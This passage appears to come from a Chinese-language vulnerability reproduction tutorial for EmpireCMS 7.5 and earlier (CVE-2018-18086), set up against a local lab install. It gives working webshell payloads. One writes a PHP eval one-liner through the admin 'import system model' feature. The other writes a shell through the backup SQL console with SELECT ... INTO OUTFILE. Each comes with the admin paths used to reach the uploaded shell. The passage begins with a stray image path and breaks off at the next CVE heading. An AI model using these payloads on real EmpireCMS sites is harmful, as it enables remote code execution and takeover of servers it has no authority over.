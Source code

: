 去php.ini中修改

刷新即可

登录后台

```
进入到对应的功能点
系统 -&gt; 数据表与系统模型 -&gt; 管理数据表 -&gt; 导入系统模型

```

```
导入我们的一句话木马  file_put_contents("1.php","&lt;?php @eval($_REQUEST[1]); ?&gt;");
				   file_put_contents("shell.php","&lt;?php phpinfo();?&gt;");

```

```
访问我们上传的文件
http://xxx.xxx.xxx.xxx/empire/e/admin/shell.php

```

#### EmpireCMS 代码注入漏洞(CVE-2018-18086)

```
EmpireCMS7.5版本中的/e/class/moddofun.php文件的LoadInMod函数存在
安全漏洞,攻击者可利用该漏洞上传任意文件
影响版本为 EmpireCMS &lt;= 7.5


靶机环境安装

打开phpstudy环境
下载empirecms
http://www.phome.net/download/

将upload文件夹解压到网站根目录
访问http://xxx.xxx.xxx.xxx/empire/e/install
按照提示进行安装


漏洞复现
访问并登录靶场页面(后台)
http://xxx.xxx.xxx.xxx/empire/e/admin
进入到对应的功能点
系统 -&gt; 备份与恢复数据 -&gt; 执行SQL语句
通过此处可以执行任意SQL语句
如果条件满足，那么可以通过SQL语句写入webshell
如：select '&lt;?php @eval($_POST["cmd"])?&gt;' into outfile
'C:/phpStudy/WWW/empire/shell.php'

```

#### EmpireCMS SQL注入漏洞(CVE-2018-19462)
